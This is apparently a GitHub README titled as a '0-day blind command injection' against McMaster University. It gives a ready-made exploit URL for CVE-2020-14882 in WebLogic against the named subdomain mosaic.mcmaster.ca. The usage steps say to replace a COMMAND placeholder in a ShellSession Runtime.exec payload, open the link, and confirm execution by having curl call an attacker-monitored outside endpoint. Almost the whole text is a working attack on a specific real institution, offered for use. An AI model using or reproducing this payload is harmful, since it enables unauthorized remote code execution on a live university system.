 # McMaster-University-0-day-Blind-Command-Injection
This targets McMaster University's website and takes advantage of CVE-2020-14882 in the outdated version of WebLogic Server (12.2.1.3.0), which is present in the university's subdomain, mosaic.mcmaster.ca.
# Usage
1. Replace "COMMAND" in [https://mosaic.mcmaster.ca/console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('COMMAND');");](https://mosaic.mcmaster.ca/console/images/%252E%252E%252Fconsole.portal?_nfpb=false&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('COMMAND');");)
2. Open the link. It should show a 404 error but the command still runs. You can confirm it by using curl in the command to GET an endpoint URL that you monitor (which you can set in, for example, ReqBin). Then, when you open the link, an event should come up indicating that the curl command was successfuly executed.
